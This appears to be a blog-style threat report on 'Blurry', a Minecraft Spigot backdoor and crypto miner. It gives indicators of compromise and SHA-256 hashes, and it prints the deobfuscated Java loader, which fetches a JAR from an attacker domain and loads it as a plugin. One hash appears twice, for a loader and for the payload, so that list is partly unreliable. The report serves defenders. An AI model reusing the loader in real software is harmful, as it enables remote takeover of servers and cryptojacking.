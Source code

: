 ```yaml
---
title: Blurry Spigot Backdoor
author: xyzeva
pubDatetime: 2023-07-20T13:50:10.627Z
postSlug: blurry-backdoor
featured: false
draft: false
tags:
  - threat
description: A new minecraft server backdoor and crypto miner.
---
```


MMPA members noticed some malicious activity going on their own personal servers, when given samples to investigate, MMPA uncovered the malware family "Blurry".

## What we know so far

Blurry is a multi-stage backdoor that is capable of completely taking over minecraft servers, crypto mining, and DDoSing.

Blurry works in 2 stagers, one being pulling for a domain, a JAR mainly named `BukkitScheduler.jar` and loading it into spigot, the loader is heavily obfuscated, but when cleaned up, it looks something like this:
```java
PluginManager pluginManager = Bukkit.getPluginManager();
if(pluginManager.getPlugin("BukkitScheduler") != null) return; 
URL url = new URL("https://i-really-love-cute-little-boys.fluyd.dev/aids/1ii1i1i11i1i1i1ii1i1iii1i11i1i1i1i1i1i1i1i1i1i1i1i1i1");
File file = new File("./plugins/BukkitScheduler.jar");
Files.copy(url.openStream(), file.toPath(), StandardCopyOption.REPLACE_EXISTING);
Plugin plugin = pluginManager.loadPlugin(file);
plugin.onLoad();
pluginManager.enablePlugin(plugin);
```

The malware has been seen to DDoS LGBT related minecraft servers. From what we can see, this is currently a minor threat, as it hasn't spread yet. But it should still be a good idea to check your servers.

## IoCs

- xmrig in minecraft server directory (`find | grep xmrig`)
- *.fluyd[.]dev

### Hashes
All hashes are provided as SHA-256.

#### Loaders
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `SoaromaSAC-1.0.65.jar` (Found on Bukkit, the actual plugin isnt affected.)
- `ffc965299059c29c4a806658215f99b5160d58b283befc7d3ac33b43c30cffeb` - Cracked Vulcan (`Vulcan-2.7.3.jar`)
- `1a9a698c6d9011727d1f4ace52bcf7630361765602cf729fc8bccc3774ce7ad2` - Fake copy of Open Source Project (`BedrockPlayerManager-1.4.jar`)

#### Payload
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `BukkitScheduler.jar`
- `8977470e0a766dc2deee2320eafeefa1f15d9adcc93f749418c362ee8ed4b858` - XMRig config (`config.json`)